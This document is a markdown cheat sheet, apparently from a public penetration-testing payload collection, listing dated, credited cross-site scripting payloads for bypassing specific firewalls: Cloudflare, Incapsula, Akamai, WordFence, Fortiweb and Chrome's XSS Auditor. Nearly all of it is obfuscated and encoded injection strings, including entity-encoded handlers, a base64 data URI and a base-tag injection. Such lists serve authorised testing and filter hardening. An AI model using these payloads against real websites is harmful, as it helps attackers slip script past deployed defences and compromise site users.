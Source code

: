# Common WAF Bypass

> WAFs are designed to filter out malicious content by inspecting incoming and outgoing traffic for patterns indicative of attacks. Despite their sophistication, WAFs often struggle to keep up with the diverse methods attackers use to obfuscate and modify their payloads to circumvent detection.

## Summary

* [Cloudflare](#cloudflare)
* [Chrome Auditor](#chrome-auditor)
* [Incapsula WAF](#incapsula-waf)
* [Akamai WAF](#akamai-waf)
* [WordFence WAF](#wordfence-waf)
* [Fortiweb WAF](#fortiweb-waf)

## Cloudflare

* 25st January 2021 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 21st April 2020 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 22nd August 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 5th June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 3rd June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 22nd March 2019 - @RakeshMane10

    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```

* 27th February 2018

    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

NOTE: Chrome Auditor is deprecated and removed on latest version of Chrome and Chromium Browser.

* 9th August 2018

    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```

## Incapsula WAF

* 11th May 2019 - [@daveysec](https://twitter.com/daveysec/status/1126999990658670593)

    ```js
    <svg onload\r\n=$.globalEval("al"+"ert()");>
    ```

* 8th March 2018 - [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)

    ```javascript
    anythinglr00</script><script>alert(document.domain)</script>uxldz
    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    ```

* 11th September 2018 - [@c0d3G33k](https://twitter.com/c0d3G33k)

    ```javascript
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    ```

## Akamai WAF

* 18th June 2018 - [@zseano](https://twitter.com/zseano)

    ```javascript
    ?"></script><base%20c%3D=href%3Dhttps:\mysite>
    ```

* 28th October 2018 - [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480)

    ```svg
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    ```

## WordFence WAF

* 12th September 2018 - [@brutelogic](https://twitter.com/brutelogic)

    ```html
    <a href=javas&#99;ript:alert(1)>
    ```

## Fortiweb WAF

* 9th July 2019 - [@rezaduty](https://twitter.com/rezaduty)

    ```javascript
    \u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
    ```
